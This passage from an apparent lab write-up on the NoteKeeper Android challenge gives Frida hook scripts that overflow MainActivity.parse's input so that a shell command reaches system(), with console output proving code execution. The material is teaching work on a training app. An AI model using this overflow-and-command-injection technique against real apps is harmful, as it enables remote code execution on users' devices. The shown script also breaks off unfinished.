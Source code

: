 As shown in the result, it is possible to rewrite the stack / `system` funtion input as it changed from `Log` to `Bog` which is our input. I now just need to change it into my command to perform RCE.

```js
let MainActivity = Java.use("com.mobilehackinglab.notekeeper.MainActivity");
MainActivity["parse"].implementation = function (Title) {
    let command = "id >> /sdcard/Download/hacked.txt"
    Title = "A".repeat(100) + command;
    console.log(`MainActivity.parse is called: Title=${Title}`);
    let result = this["parse"](Title);
    console.log(`MainActivity.parse result=${result}`);
    return result;
};
```

By using this script, I successfully injected my command using buffer overflow technique.

```powershell
PS E:\Desktop\Android\frida-script> frida -U -N com.mobilehackinglab.notekeeper -l a.js
     ____
    / _  |   Frida 16.5.9 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at https://frida.re/docs/home/
   . . . .
   . . . .   Connected to POCOPHONE F1 (id=d211a91c)
[POCOPHONE F1::com.mobilehackinglab.notekeeper ]-> MainActivity.parse is called: Title=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAid >> /sdcard/Download/hack.txt
[*] system() called with command: id >> /sdcard/Download/hack.txt
             0  1  2  3  4  5  6  7  8  9  A  B  C  D  E  F  0123456789ABCDEF
7ff3ad0960  69 64 20 3e 3e 20 2f 73 64 63 61 72 64 2f 44 6f  id >> /sdcard/Do
7ff3ad0970  77 6e 6c 6f 61 64 2f 68 61 63 6b 2e 74 78 74 00  wnload/hack.txt.
7ff3ad0980  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
[*] system() returned with code: 0x0
MainActivity.parse result=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAid >> /sdcard/Download/hack.txt
```

I then checked it the POC is created or not.

```bash
beryllium:/sdcard/Download # cat hack.txt
uid=10344(u0_a344) gid=10344(u0_a344) groups=10344(u0_a344),3003(inet),9997(everybody),20344(u0_a344_cache),50344(all_a344) context=u:r:untrusted_app:s0:c88,c257,c512,c768
```

I managed to perform RCE by abusing the buffer overflow. Here's a full frida script that I wrote.

```js
Java.perform(()=> {

    

    let MainActivity = Java.use("com.mobilehackinglab.notekeeper.MainActivity");
    MainActivity["parse"].implementation = function (Title) {
        let command = "id >> /sdcard/Download/hack.txt"
        Title = "A".repeat(100) + command;
        console.log(`MainActivity.parse is called: Title=${Title}`);
        let result = this["parse"](Title);
        console.log(`MainActivity.parse result=${result}`);
        return result;
    };

```